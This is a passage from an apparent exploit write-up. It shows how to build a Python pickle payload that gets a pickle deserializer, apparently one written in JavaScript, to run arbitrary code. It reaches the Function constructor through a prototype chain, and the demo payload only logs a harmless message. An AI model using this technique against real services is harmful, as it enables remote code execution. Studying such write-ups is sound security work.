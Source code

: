 ```shell
UNICODE "console.log('washi was here');"
TUPLE1
NEWOBJ
```


Finally, we need to execute it.
For this, we can simply push an empty list to signify no arguments are passed onto the function, and then use the `REDUCE` opcode to call it:

```shell
EMPTY_LIST
REDUCE
```

And that's all there is to it!
The final payload is actually quite small and not even that complicated.

We can use the `pickleassem` Python package to construct our payload easily:

```python
from pickleassem import PickleAssembler

pa = PickleAssembler(proto=3)

pa.push_global("builtins", "list")
pa.push_unicode("prototype")
pa._payload += pickleassem.GET + b"constructor\x0a"
pa.build_setitem()

pa.push_unicode("console.log('washi was here');")
pa.build_tuple1()
pa.build_newobj()

pa.push_empty_list()
pa.build_reduce()

payload = pa.assemble()
```

Then, if we send the resulting Pickle over the websocket we get the following:

![](img/exploit01.gif)

